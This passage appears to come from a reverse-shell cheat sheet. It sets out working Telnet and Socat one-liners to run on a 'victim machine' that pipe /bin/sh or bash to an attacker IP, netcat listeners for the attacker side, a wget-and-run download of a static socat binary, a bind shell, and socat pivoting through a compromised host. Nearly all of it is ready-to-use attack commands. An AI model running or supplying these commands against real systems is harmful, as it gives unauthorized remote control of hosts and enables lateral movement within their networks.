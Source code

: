 ```bash
ncat -u 1337
```

#### Telnet <a name='tn'></a>
```bash
# on the victim machine
# 1.syntax: rm -f /tmp/p; mknod /tmp/p p && telnet {attacker IP} {port} 0/tmp/p 2>&1
rm -f /tmp/p; mknod /tmp/p p && telnet 10.10.14.32 1337 0/tmp/p 2>&1

# 2.syntax: telnet {attacker IP} {port1} | /bin/bash | telnet {attacker IP} {port2}
telnet 10.10.14.32 1337 | /bin/bash | telnet 10.10.14.32 1338

# 3.syntax: rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet {attacker IP} {port} > f
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet 10.10.14.32 1337 > f

# on the attacker machine
# 1.syntax: nc -lvnp {port}
nc -lvnp 1337

# 2.syntax: nc -lvnp {port1}; nc -lvnp {port 2}
nc -lvnp 1337
nc -lvnp 1338
```

#### Socat <a name='scat'></a>
```bash
# on the attacker machine
# syntax: socat file:`tty`,raw,echo=0 TCP-L:{port}
socat file:`tty`,raw,echo=0 TCP-L:1337

# on the victm machine
# 1.syntax: ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{attacker IP}:{port}
./socat tcp:<attacker-ip>:<attacker-port> exec:'bash -li',pty,stderr,setsid,sigint,sane 

# 2.syntax: socat tcp-connect:{attacker IP}:{port} exec:"bash -li",pty,stderr,setsid,sigint,sane
socat tcp-connect:10.10.14.32:1337 exec:"bash -li",pty,stderr,setsid,sigint,sane

# 3.Oneliner syntax: wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{attacker IP}:{port}
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.32:1337

#============================================================================#
# simple reverese shell
# on the compromised machine
socat TCP-L:<port> EXEC=/bin/bash # execute /bin/bash on conenction

# on the attacker machine
socat TCP:<compromised-machine-ip>:<opened-port> - 

# 


# Pivoting with socat
# machine we want to access (Machine A)
socat TCP-L:1234 EXEC:/bin/bash

# machine we have access to (pivot point- Machine B)
socat TCP-L:3333 TCP:<Machine-A IP>:1234 

# attacker machine  (our machine)
socat TCP:<Machine-B IP>:3333 - 
```